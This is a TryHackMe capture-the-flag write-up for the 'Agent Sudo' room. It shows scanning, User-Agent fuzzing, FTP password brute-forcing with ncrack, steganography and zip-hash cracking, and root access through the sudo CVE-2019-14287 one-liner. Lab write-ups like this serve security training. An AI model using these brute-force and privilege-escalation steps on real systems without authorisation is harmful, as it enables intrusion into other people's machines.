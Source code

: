 ```yaml
---
title: Agent Sudo - Easy THM
date: 2023-11-11 10:20:51 +/-0800
categories: [writeup, tryhackme]
writeup: :title
permalink: /agentsudo
tags: [thm, writeup, easy, linux, steganographie, web, CVE-2019-14287, talace]     # TAG names should always be lowercase
---
```


- OS: Linux
- Difficulty: Easy
- Author: Talace

# **SCANNING**

**Threader3000 scan:**

`python3 threader3000.py 10.10.49.159`

```python
Port 21 is open
Port 22 is open
Port 80 is open
```

**nmap scan:**

`nmap -p21,22,80 -sV -sC -T4 -Pn -oA 10.10.49.159 10.10.49.159`

```python
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

# **ENUMERATION**

We go on the webserver

`http://10.10.10.10/`

We spawn on a website, with a message talking about **USER-AGENT**

![website](/assets/agentSudo/website.png)


Try changing the USER-AGENT

![USER-AGENT](/assets/agentSudo/userAgent.png)

I got this new message

![AgentR](/assets/agentSudo/agentR.png)


It work, let's use the burp intruder to brute force all pages

![intruder](/assets/agentSudo/bruteForceUserAgent.png)

Found the path /C

![AgentC](/assets/agentSudo/agentC.png)

User chris ? Let's try to brute force is FTP creds

```ncrack -u 'chris' -P /usr/share/wordlists/rockyou.txt ftp://10.10.118.96```

Get the FTP credentials

## FTP ENUMERATION

Retrieve all files and folder:

`wget -m --no-passive ftp://chris:pass@<target>`

Get these files

![zip](/assets/agentSudo/zip.png)

Extract the zip

`binwalk -e cutie.png`

Get a hash possibly, look like base64

`echo 'QXJlYTUx' | base64 -d`

Next, we get a zip, we use zip2john

`zip2john 8702.zip > hash.txt`

decrypt the hash with john

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Next extract the jpg with the pass

`steghide extract -sf cute-alien.jpg`

Found a user and a pass, try to connect via ssh, it work !

# **PRIVESC**

We have the user.txt, let's search for the root

check sudo rights

`sudo -l`

![privesc](/assets/agentSudo/privesc.png)

Found a CVE on sudo version 1.8.27

https://www.exploit-db.com/exploits/47502

## **The exploit:**

sudo -u#-1 /bin/bash

Got root !